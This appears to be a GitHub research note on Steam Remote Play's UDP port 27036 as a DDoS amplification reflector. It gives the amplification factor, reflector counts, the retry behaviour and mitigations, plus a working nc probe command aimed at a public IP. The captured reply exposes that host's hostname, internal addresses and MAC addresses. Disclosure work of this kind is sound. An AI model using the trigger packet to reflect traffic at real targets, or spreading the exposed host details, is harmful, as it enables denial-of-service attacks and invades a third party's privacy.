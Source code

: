 # Steam In-Home Streaming (Steam Remote Play)

## Port: 27036

## Proto: UDP

## Amplification factor: ~17x

## Reflector count: ~347,000

### Update 20/02 - Patched from hackerone report, reflectors now at 16,000 !

---

- Steam In-Home Streaming allows streaming and playing games from one PC to another or with friends (on the internet).
- The Request for info packet reveals hostname, internal IP's and MAC addresses which amplify the initial request.
- If no response to the reply within 5 seconds, this protocol will send the data again (some kind of UDP error retry mechanism).
  - **Same data is sent 3 times before giving up.**
    - Instantly, after 3s, then after 20s.
  - This is more interesting (and potentially dangerous) than singleton data overflowing into fragments because it is an entirely new packet.

### Example Request / Response

- Request: 17 bytes (1x)

  - > ~# echo -ne '\xff\xff\xff\xff\x21\x4c\x5f\xa0\x05\x00\x00\x00\x08\xd2\x09\x10\x00'|nc -u 90.127.28.132 27036 -w1|wc -c

- Response: 247 bytes (3x times)

  - ASCII: `` ����!L_����癒��~�ѣ�����L���"Phantom08@JpL����!X`����pz90-61-AE-B3-42-79z00-15-5D-44-80-A7z30-9C-23-48-BF-1Az90-61-AE-B3-42-78z00-E0-4C-01-0C-58z90-61-AE-B3-42-7C� 192.168.4.49� 192.168.1.10�90.127.28.132 ``
  - Raw Bytes: `ffffffff214c5fa01600000008fc89cee79992a7c67e100118f8d1a387e3dfdffa4cd100000008081006189cd30122075068616e746f6d3002381040014a0e09704ce8040100100110b4b5d121580160bddac8ef0570007a1139302d36312d41452d42332d34322d37397a1130302d31352d35442d34342d38302d41377a1133302d39432d32332d34382d42462d31417a1139302d36312d41452d42332d34322d37387a1130302d45302d34432d30312d30432d35387a1139302d36312d41452d42332d34322d3743a2010c3139322e3136382e342e3439a2010c3139322e3136382e312e3130aa010d39302e3132372e32382e313332`

### Documentation

- <https://support.steampowered.com/kb_article.php?ref=8571-GLVN-8711>
- <https://www.lifehacker.com.au/2014/05/how-to-setup-steam-in-home-streaming-and-fix-its-quirks/>
- [Disable Steam Remote Play on client](https://steamcommunity.com/groups/homestream/discussions/0/352792037330670002/)

### Mitigations

- Stop allowing default Internet access (yet again...), restrict to LAN as default configuration (Steam's issue).
- Response data ALWAYS consists of Steam's proprietary `\xff\xff\xff\xff` query prefix.
- Data size and data itself vary greatly depending on internal addresses and connected device MAC addresses, responses can range from 50 bytes to 400 in a single packet.
